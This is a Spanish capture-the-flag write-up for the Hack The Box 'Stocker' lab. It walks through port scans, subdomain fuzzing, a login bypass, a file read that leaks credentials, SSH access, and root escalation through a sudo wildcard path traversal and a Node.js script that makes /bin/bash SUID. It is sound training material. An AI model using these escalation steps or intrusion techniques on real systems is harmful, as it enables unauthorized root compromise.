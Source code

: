 ```yaml
---
layout: post
author: 4akatun
---
```


# Writeup

![Stocker](assets/img/Stocker/stocker.png)


HACK-THE-BOX

-------------------------------------------------

Iniciamos el escaneo con **NMAP** en la maquina victima, para obtener puertos abiertos y los servicios que ocupa.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.196
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 05:31 CET
Initiating SYN Stealth Scan at 05:31
Scanning 10.10.11.196 [65535 ports]
Discovered open port 80/tcp on 10.10.11.196
Discovered open port 22/tcp on 10.10.11.196
Completed SYN Stealth Scan at 05:31, 11.76s elapsed (65535 total ports)
Nmap scan report for 10.10.11.196
Host is up, received user-set (0.046s latency).
Scanned at 2023-02-27 05:31:41 CET for 11s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.84 seconds
           Raw packets sent: 65679 (2.890MB) | Rcvd: 65535 (2.621MB)
```
```bash
❯ nmap -sCV -p22,80 10.10.11.196
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 05:32 CET
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Stock - Coming Soon!
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-generator: Eleventy v2.0.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

Vemos que el puerto *80* esta abierto, que analizaremos con **whatweb**
```bash
❯ whatweb 10.10.11.196
http://10.10.11.196 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.196], RedirectLocation[http://stocker.htb], Title[301 Moved Permanently], nginx[1.18.0]
ERROR Opening: http://stocker.htb - no address for stocker.htb
```
No reconoce el nombre de dominio **stocker.htb** asi que tendremos que introducirlo en **/etc/hosts**
Una vez lo tengamos ya si introducimo en el navegador.

![web](assets/img/Stocker/webstocker.png)

La web contiene poco, debemos buscar **rutas y subdominios** que puedan existir.

```bash
❯ wfuzz -c -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://stocker.htb" -H "Host: FUZZ.stocker.htb" --hc=301
 /usr/local/lib/python3.9/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://stocker.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                             
=====================================================================

000000019:   302        0 L      4 W        28 Ch       "dev"
```
Obtenemos un nuevo dominio, que tambien tendremo que introducir en **/etc/host**

Y esto es lo que vemos.

![login](assets/img/Stocker/weblogin.png)

Usaremos **burpSuite** para interceptar la peticion y ver mas a fondo.
Al enviar la peticion vemos que nos da error

![burp3](assets/img/Stocker/burp3.png)

Intentaremos enviarlo en formato **json**, cambiar **content-type** e intentar burlar el panel de login.

![burp1](assets/img/Stocker/burp1.png)

Al parecer resulto y podemos acceder a la *web*

Vemo una serie de articulos que estan a la venta

![web2](assets/img/Stocker/webStock.png)

Comprare un producto e interceptare la peticion con **BurpSuite** de nuevo.

![burp4](assets/img/Stocker/burp4.png) ![stock](assets/img/Stocker/burp.png)

Modificamos el titulo para introducir lo que nos interesa, para poder leer archivos de la maquina victima.
Nos quedamos con el numero de **orderID** y lo introducimos en la *web* en la ruta **/api/po/**
Y asi podemos leer el contedido de **/etc/passwd** y listar los usuarios del sistema.
![etcpasswd](assets/img/Stocker/etcpasswd.png)

Ya que tenemos exito en la lectura de archivo, provare a buscar en una ruta concreta si hay credenciales en texto plano.

![img](assets/img/Stocker/burp2.png)

Tengo suerte y puedo visualizar unas credenciales.

![sshpass](assets/img/Stocker/sshpassw.png)

La provare por *ssh* con el usuario *angoose* que vimos antes.

```bash
❯ ssh angoose@10.10.11.196
angoose@10.10.11.196's password: 
Last login: Mon Feb 27 03:33:26 2023 from 10.10.14.2
angoose@stocker:~$ whoami
angoose
angoose@stocker:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.196  netmask 255.255.254.0  broadcast 10.10.11.255
        ether 00:50:56:b9:9b:c6  txqueuelen 1000  (Ethernet)
        RX packets 135505  bytes 8341794 (8.3 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 136293  bytes 9132784 (9.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 13681  bytes 2292516 (2.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13681  bytes 2292516 (2.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
angoose@stocker:~$ cat user.txt 
052**************************63f
angoose@stocker:~$
```

Hemos podido ganar acceso, estamo en la maquina victa y podemos visualizar
la *flag* de bajos privilegio.
Tenemos que buscar la formar de convertirnos en **root**

Acontinuacion si escribimos **sudo -l** vemos lo siguiente...
```bash
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$
```
Cualquier usuario puede ejecutar cualquier script *.js* que este en esa ruta.
Creare mi propio *script .js* para dar privilegio **SUID** a **/bin/bash** y asi podria escalar privilegios.

```js
 const fsPromises = require("fs").promises;
 const fs = require("fs");(async () => {
   try {
     const { fd } = await fsPromises.open("/bin/bash", "r");
     fs.fchmod(fd, 0o4777, err => {
       if (err) throw err;
       console.log("File permission change succcessful");
     });
   } catch (error) {
     console.log(error);
   }
 })();
```
Puedes leer mas informacion sobre este script [en este enlace](https://codeburst.io/node-js-fs-module-changing-file-permissions-and-ownership-with-file-descriptors-14749fdf3eaf)

Lo ejecutamos de la siguietne forma...
```bash
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../../home/angoose/suid.js
File permission change succcessful
angoose@stocker:~$ ls -la /bin/bash
-rwsrwxrwx 1 root root 1183448 Apr 18  2022 /bin/bash
```

Lo hemos conseguido ya queda menos.
Ejecutamos el siguiente comando y ya hestariamo como root y podemos visualiazar la ultima **flag**

```bash
angoose@stocker:~$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
3de**************************07f
bash-5.0# 
```

# Espro que te pueda servir de ayuda. *GRACIAS por venir*


